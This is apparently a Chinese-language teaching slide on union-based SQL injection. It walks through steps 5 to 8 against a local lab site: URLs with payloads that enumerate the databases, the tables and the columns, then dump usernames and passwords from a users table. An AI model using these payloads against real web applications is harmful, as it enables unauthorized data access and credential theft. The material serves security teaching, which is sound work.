

SQL注入漏洞-联合查询
5.查询有多少个库并得到数据库名
http://127.0.0.1/cepo/?id -1' union select distinct 1,count(schema_name),3 from information_schema.schemata --+

http://127.0.0.1/cepo/?id=-1' union select distinct 1,group_concat(schema_name),3 from information_schema.schemata --+

6.得到表名
http://127.0.0.1/cepo/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security’--+

7.得到列名
http://127.0.0.1/cepo/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+

8.得到数据
http://127.0.0.1/cepo/?id=-1' union select 1,group_concat(username),group_concat(password) from users--+